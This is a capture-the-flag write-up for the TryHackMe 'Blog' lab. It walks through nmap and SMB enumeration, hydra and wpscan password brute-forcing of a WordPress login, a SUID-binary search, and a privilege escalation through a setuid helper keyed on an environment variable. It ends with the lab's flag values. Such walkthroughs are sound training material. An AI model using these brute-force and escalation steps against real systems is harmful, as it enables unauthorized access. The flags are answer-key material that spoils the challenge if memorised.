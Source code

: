 ```yaml
---
title: "Blog - TryHackMe"
author: Ludovic COULON
date: 2020-07-17
hero: ./images/hero.png
excerpt: "Writeup for the Blog CTF challenge"
---
```


[TryHackMe | Blog](https://tryhackme.com/room/blog)

Welcome to Blog room, a puzzle-style CTF. Collecting the item, solving the puzzle and escaping the nightmare is your top priority.

Can you survive until the end?If you have any question, do not hesitate to DM me on the discord channel.

![https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80](https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80)

Photo by [Glenn Carstens-Peters](https://unsplash.com/@glenncarstenspeters?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/blog?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it! Billy has some
weird things going on his laptop. Can you maneuver around and get what
you need? Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.37.237
```

```bash
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8

80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog

139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28514/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 48324/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 42470/udp): CLEAN (Timeout)
|   Check 4 (port 36313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T19:07:26+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-12T19:07:26
|_  start_date: N/A
```

As you can see there is a SMB server open with the guest credentials, let's see what's inside of the server.

```bash
➜  blog smbclient -L 10.10.37.237
Enter WORKGROUP\kali password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

![https://imgur.com/BMgqkDa.png](https://imgur.com/BMgqkDa.png)

![https://imgur.com/ONKwYZa.png](https://imgur.com/ONKwYZa.png)

```bash
➜  blog steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
➜  blog cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

Let's see if we can enumerate some username to brute-force the administration page of WordPress

![https://imgur.com/ttyfVpD.png](https://imgur.com/ttyfVpD.png)

Nice, we have the username : bjoel, kwheel

Brute-force with hydra

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to:blog.thm/wp-admin/'
```

With wpscan

```bash
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

![https://imgur.com/NFazDUA.png](https://imgur.com/NFazDUA.png)

![https://imgur.com/3UG7eKi.png](https://imgur.com/3UG7eKi.png)

On the website you can see the CVE let's try it 🥺

![https://imgur.com/dl0F04t.png](https://imgur.com/dl0F04t.png)

![https://imgur.com/5T7o6Jf.png](https://imgur.com/5T7o6Jf.png)

### #1 root.txt

```bash
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![https://imgur.com/BdKvKff.png](https://imgur.com/BdKvKff.png)

With Ghidra I reverse engineering the binary 🐉

```c
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

Exploit

```bash
$ export admin=SOMTHINGHERE
# Execute the bin
$ /usr/sbin/checker
```

Nice ! You now have the root privilege 🤩

```bash
root@blog:/dev/shm: cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

### #2 user.txt

```bash
root@blog:/dev/shm:: find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

root@blog:/dev/shm: cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

### #3 Where was user.txt found?

```bash
/media/usb
```

### #4 What CMS was Billy using?

```bash
Wordpress
```

### #5 What version of the above CMS was being used?

![https://imgur.com/9JSk8SX.png](https://imgur.com/9JSk8SX.png)

```bash
5.0
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
